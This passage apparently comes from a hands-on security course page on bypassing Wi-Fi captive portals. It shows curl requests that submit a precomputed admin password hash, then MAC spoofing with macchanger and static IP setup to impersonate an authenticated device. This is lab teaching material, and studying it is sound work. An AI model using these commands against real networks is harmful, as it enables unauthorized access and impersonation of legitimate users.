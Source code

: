 &lt;html&gt;
	&lt;head&gt;
		&lt;...snip...?
	&lt;/head&gt;
	&lt;body&gt;
		Thank for you for signing in Admin. You are now free to surf the network.
	&lt;/body&gt;
&lt;/html&gt;
</code></pre>
<p>Here, we use the hashed password instead of entering a plaintext password into the login form. Since the portal performs hashing client-side before sending the request, submitting the precomputed hash directly allows us to bypass this process.</p>
<h4>Using a Salted and Hashed Password</h4>
<p>If the captive portal applies static or random salting, concatenation, or other obfuscation techniques, direct hash submission may fail. These additional security measures often include session keys, cookies, or device-specific authentication tokens. We can test this by attempting to log in using the same approach as before:</p>
<pre><code class="language-shell-session">[!bash!]$ curl -X POST -d 'username=admin&amp;password=391aa8b7234d908027efe09114f5453a&amp;submit=Sign+In' 192.168.0.1

&lt;html&gt;
	&lt;head&gt;
		&lt;...snip...?
	&lt;/head&gt;
	&lt;body&gt;
		Sorry, only one device per session. Please re-enter your username and password.
		&lt;a&gt;go back&lt;/a&gt;
	&lt;/body&gt;
&lt;/html&gt;
</code></pre>
<p>In this case, we notice that these hashes truly are stored per-session. This too, however, is not impossible to bypass, and we might be able to take some additional steps towards success. We could potentially attempt to impersonate the device through MAC/IP spoofing as we did in the previous section.</p>
<p>Once we have identified the IP and MAC address of the target client (e.g., IP: 192.168.0.16, MAC: aa:bb:cc:dd:ee:ff), the next step is to spoof our MAC address to match the target. This can be done using the macchanger utility.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo ifconfig wlan0 down
[!bash!]$ sudo macchanger -m aa:bb:cc:dd:ee:ff wlan0
[!bash!]$ sudo ifconfig wlan0 up
</code></pre>
<p>Then, we would reconnect to the target network in question. At this point, we could add our static IP address assignment.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo ifconfig wlan0 192.168.1.16 netmask 255.255.255.0
[!bash!]$ sudo route add default via 192.168.0.1
</code></pre>
<p>Finally, we can test to see if we have bypassed the captive portal.</p>
<pre><code class="language-shell-session">[!bash!]$ ping -c 4 8.8.4.4
</code></pre>
<p>All in all, this technique is really no different than simple MAC/IP spoofing, and is more effective than interception in most cases.</p>
<p>In the next section, we will explore the interception of session keys and cookies, and explore how they can be used to impersonate an authenticated user in a captive portal system.</p>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to